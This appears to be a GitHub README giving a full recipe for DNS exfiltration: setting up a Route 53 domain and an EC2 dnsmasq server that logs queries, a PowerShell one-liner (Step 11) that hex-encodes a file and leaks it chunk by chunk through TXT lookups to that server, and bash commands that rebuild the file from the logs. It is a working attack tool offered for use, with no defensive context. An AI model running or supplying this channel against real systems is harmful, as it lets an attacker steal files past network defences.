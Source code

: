 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq on EC2 instance and configure it
sudo yum install dnsmasq  
sudo nano /etc/dnsmasq.conf then input the content below, right at the bottom of the config file  
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or find a way to restart dnsmasq (sudo systemctl restart systemd-networkd.service)  

sudo dnsmasq  

## Step 5: Go to Route 53 config, note down default SOA and NS records


## Step 6: Create A Record to point from record name to your EC2 instance
**Record Name:** ns1.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>  
**TTL:** 300  

**Record Name:** ns2.<yourdomain.com>  
**Type:** A  
**Value:** <your EC2 public IP address>
**TTL:** 300  

## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** NS  
**Value:**  
ns1.<yourdomain.com>  
ns2.<yourdomain.com>  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** SOA  
**Value:** ns1.<yourdomain.com>. admin.<yourdomain.com> 1 7200 900 1209600 86400  
**TTL:** 60  

## Step 9: Use CMD to nslookup as a test
nslookup -q=TXT 12332145343dafdsa234234123123453asdf234sadfsadfasdf ns1.<yourdomain.com>  


## Step 10: Check your DNS logs in EC2
sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"  


## Step 11: Powershell command to hex encode a file, split, and do nslookup

`certutil -encodehex ToExfil.txt encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5} `


## Step 12: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 7 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > ToExfil.txt | cat ToExfil.txt`  

